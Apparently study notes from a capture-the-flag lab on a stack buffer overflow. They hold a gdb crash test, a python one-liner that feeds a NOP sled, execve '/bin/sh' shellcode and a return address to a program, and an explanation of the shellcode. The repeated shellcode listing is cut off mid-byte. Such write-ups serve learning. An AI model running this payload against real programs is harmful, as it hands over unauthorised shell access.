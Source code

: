Test position:
```sh
gdb -q bow32
run $(python -c "print('\x55' * 1036 + '\x66' * 4)")
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```

Yay, we can set eip!

#### Find out how much space we have for shellcode



#### Using shell code

We want to put code in memory and then redirect execution to this memory.

Structure of the input:
`python -c "print (NOP * no_of_nops + shellcode + random_data * no_of_random_data + memory address)"`

Example:
`python -c "print('\x90'*30+'\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05'+'\x41'*60+'\xef\xbe\xad\xde')" | ./program`

#### Example shell code

Shell code that opens a basic shell (source THM)
```
\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3
```

The shell code disassembled using r2, commands aaa and then pdf:
![[Images/Pasted image 20240809204245.png]]
<font size=2>A string containing the path to /bin/sh + 0x11 (random extra byte) is put in the RCX registry.<br>
To get rid of the extra 0x11 rcx is first shifted one byte to the left and then to the right.<br>
RCX is then pushed onto the stack.<br>
Other requirements for the syscall to exectue the path are prepared and then the syscall is made.</font>


We use a number of nop instructions to make the address of the exploit easier to get to. If we have 90 nops all addresses within these will lead execution to the shell code.

The next step is to change the value of the instruction pointer. This cannot be done directly as it is read only but the old value of the instruction pointer is saved to the stack when a function is called. This is where it can possibly be overwritten.

But to overwrite it we need to know the organization and contents on the stack and how the instruction pointer is saved there...





